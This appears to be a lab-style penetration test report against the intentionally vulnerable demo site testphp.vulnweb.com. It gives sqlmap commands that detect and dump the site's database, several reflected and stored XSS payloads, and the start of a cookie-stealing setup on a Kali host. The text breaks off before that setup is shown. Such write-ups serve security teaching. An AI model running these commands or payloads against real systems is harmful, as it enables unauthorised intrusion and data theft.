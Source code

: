 - Spidered the site with wget to map endpoints: `wget --spider -r http://testphp.vulnweb.com/`
  **Output**: Identified pages like /search.php, /guestbook.php,
/product.php, /userinfo.php, /artists.php and more.

## 2. Vulnerability Identification

- Tested for SQL Injection on /search.php: `sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dbs --batch`

  **Output**: Confirmed MySQL backend, identified databases: acuart,
information_schema. Parameter test was injectable via boolean-based
blind, error-based, time-based blind, and UNION query techniques.

- Tested for Reflected XSS on /search.php:
  Submitted in the search bar: `<script>alert('YOU_ARE_HACKED')</script>`
  Tested alternative payloads: `<sCrIpT>alert('YOU_ARE_HACKED')</sCrIpT>`, `<img src=x onerror=alert('YOU_ARE_HACKED')>`,`<iframe src="javascript:alert('YOU_ARE_HACKED')">`

**Output**: Confirmed reflected XSS; YOU_ARE_HACKED alert displayed even persisting after refresh.

- Tested for Stored XSS on /guestbook.php:

  Submitted in the comment section: `<script>alert('YOU_ARE_HACKED')</script>`,`<img src=x onerror=alert('YOU_ARE_HACKED')>`,`<div onmouseover=alert('YOU_ARE_HACKED')>Hover here</div>`

**Output**: Confirmed stored XSS in the page source field by clicking
F12; YOU_ARE_HACKED alert was triggered.

## 3. Exploitation

- Exploited SQL Injection: `sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dump --batch`
  **Output**: Dumped acuart database tables: This is just a summary...see more in the screenshots afterwards.

| **Table Name** | **Number of Entries** | **Sample Entry**                                                                 |
|----------------|-----------------------|----------------------------------------------------------------------------------|
| carts          | 1                     | cart_id: dc1ef9007bd8752eee4aac72762673c9, item: 2, price: 80                   |
| categ          | 4                     | cat_id: 1, cname: Posters                                                       |
| pictures       | 7                     | pic_id: 1, title: The shore, price: 500                                         |
| users          | 1                     | uname: test, pass: test, email: Abdumalikov@email.com, name: john                |
| featured       | 0                     | —                                                                                |
| products       | 3                     | id: 1, name: Network Storage D-Link DNS-313, price: 359                         |
| artists        | 3                     | artist_id: 1, aname: r4w8173                                                    |
| guestbook      | 0                     | —                                                                                |


- Exploited Stored XSS on /guestbook.php
  I set up Apache2 on Kali (192.168.56.109):
  `sudo systemctl start apache2`
  `sudo nano /var/www/html/steal.php`
